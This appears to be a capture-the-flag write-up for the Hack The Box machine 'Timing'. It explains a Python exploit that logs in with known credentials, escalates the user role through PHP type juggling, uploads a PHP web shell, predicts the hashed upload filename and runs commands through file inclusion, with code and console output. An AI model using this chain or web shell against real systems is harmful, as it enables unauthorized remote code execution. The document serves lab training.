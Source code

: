 # Hack The Box. Machines. Timing

Machine write-up: https://7rocky.github.io/en/htb/timing

### `foothold.py`

The purpose of this script is to upload a PHP web shell. For that, we need to access with credentials `aaron:aaron`, modify its role to be `admin` (abusing Type Juggling) and then upload the file. Finally, we need to compute the filename using the same procedure that the server uses.

We start by creating a `requests` session (so that we don't need to care about cookies in subsequent requests), and declaring the name of the file to upload:

```python
    s = requests.session()
    filename = 'r.php.jpg'

    s.post('http://10.10.11.135/login.php?login=true', data={
        'user': 'aaron',
        'password': 'aaron'
    })
    print(f'Cookie: PHPSESSID={s.cookies["PHPSESSID"]}')
```

Then we need to change the user's role to be `1`, so that we can upload files. In the [write-up](https://7rocky.github.io/en/htb/timing) I show two ways of becoming `admin` (or role `1`). Here I will abuse Type Juggling:

```python
    s.post('http://10.10.11.135/profile_update.php?login.php', data={
        'firstName': 'x', 'lastName': 'x', 'email': 'x', 'company': 'x', 'role': '1'
    })
```

The server will receive role as `"1"`, and the check is `$_SESSION['role'] != 1` (PHP), so both values are the same (there is no type comparison).

Now we can upload the PHP web shell:

```python
    r = s.post('http://10.10.11.135/upload.php?login.php', files={
        'fileToUpload': (filename, b'<?php system($_GET["cmd"]); ?>')
    })
```

The server will perform some operations with the filename. It uses its relative time, adds a string `"$file_hash"` and then computes an MD5 hash. To get the current time relative to the server, we can use the `Date` header from the HTTP response and parse it to a time stamp.

As there can be some timing delays between request and response, I use some offset from below and above the time sent by the server and request the resulting file to see if I get 200 OK:

```python
    time = int(parser.parse(r.headers['Date']).timestamp())

    for i in range(-5, 5):
        test_file = f"{md5(b'$file_hash' + str(time + i).encode()).hexdigest()}_{filename}"

        if requests.get(f'http://10.10.11.135/images/uploads/{test_file}').status_code == 200:
            print('RCE:', f'http://10.10.11.135/images/uploads/{test_file}')
```

And that's it. Once the file is found, we can start using the web shell (exploiting a Local File Inclusion vulnerability that exists in the server) in the browser, using `curl` or whatever:

```console
$ python3 foothold.py
Cookie: PHPSESSID=dg8sokd2ki84a93ggp2tttrlm6
RCE: http://10.10.11.135/images/uploads/67bcd57488a373e2873212f23c06c222_r.php.jpg

$ curl 10.10.11.135/images/uploads/67bcd57488a373e2873212f23c06c222_r.php.jpg  
<?php system($_GET["cmd"]); ?>

$ curl '10.10.11.135/image.php?img=images/uploads/67bcd57488a373e2873212f23c06c222_r.php.jpg&cmd=whoami'  
www-data
```
